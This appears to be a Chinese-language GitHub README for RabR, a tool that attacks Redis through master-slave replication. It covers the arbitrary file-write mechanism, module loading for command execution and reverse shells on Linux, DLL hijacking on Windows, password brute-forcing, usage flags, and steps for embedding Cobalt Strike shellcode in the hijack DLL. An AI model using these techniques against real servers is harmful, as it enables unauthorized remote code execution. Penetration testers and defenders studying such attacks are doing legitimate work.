


# RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可...执行calc
本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的redis进行module攻击，对Windows下的Redis进行dll劫持攻击。  
- 本工具默认使用的恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **win7x64下的dbghelp.dll** 编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 用法
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default dbghelp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```





## 进一步

攻击Windows x64下的redis：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   

```
1、将dllmain.cpp中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成dll，复制到本工具目录下。
4）使用本工具执行攻击 。  


## 感谢
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！
帮助到我的文章与工具包括但不限于：
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)
 [redis-rce](https://github.com/Ridter/redis-rce)
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)
 [redis-dump-go](https://github.com/yannh/redis-dump-go)

反馈
---
Mail：h.vi@qq.com  
或者[issue](https://github.com/0671/MyCT/issues/new)、PR